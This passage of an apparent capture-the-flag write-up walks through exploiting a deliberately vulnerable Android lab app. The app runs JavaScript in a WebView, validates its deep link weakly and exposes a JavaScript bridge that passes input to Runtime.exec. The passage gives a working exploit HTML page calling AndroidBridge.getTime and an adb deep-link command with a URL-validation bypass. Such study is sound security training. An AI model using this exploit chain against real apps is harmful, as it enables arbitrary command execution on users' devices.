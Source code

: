 ```java
        }
```
**Here’s where the actual vulnerability lies, and you can probably already see the attack vector!**  
The method uses `Runtime.getRuntime().exec(Time)` to execute shell commands passed as a string. It runs the provided command and reads its output to return it to JavaScript.
## Exploitation
** Let’s clarify the exploitation chain step-by-step in case things are a bit unclear: **

1. JavaScript is enabled in the WebView via `webSettings.setJavaScriptEnabled(true)`, allowing JavaScript execution in loaded pages.
    
2. The app uses a deep link with weak validation logic. The `url` parameter is only checked to end with `mobilehackinglab.com`, which can be easily bypassed.
    
3. The app exposes a **JavaScript interface** named `"AndroidBridge"` using `addJavascriptInterface(new MyJavaScriptInterface(), "AndroidBridge")`. This allows JavaScript code from any loaded HTML page to call methods inside the app.
    
4. The `MyJavaScriptInterface` class contains a method `getTime(String time)` annotated with `@JavascriptInterface`, which executes arbitrary shell commands using `Runtime.getRuntime().exec(id)`.

I will use this html code
```html 
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Exploit Page</title>
</head>
<body>

<p id="result">Hacked! I got you</p>

<script>
  // Exploit vulnerable JavaScript interface to execute arbitrary commands
  var result = AndroidBridge.getTime("id");
  document.getElementById('result').innerText = "Command Output:\n\n" + result;
</script>

</body>
</html>

```
Then host it on my device, I will use a python server
![](/assets/img/attachments/guessme-4.png)
Then get this file
```
adb shell am start -a android.intent.action.VIEW -d "mhl://mobilehackinglab?url=http://172.24.56.1:8000/exploit.html?mobilehackinglab.com"
```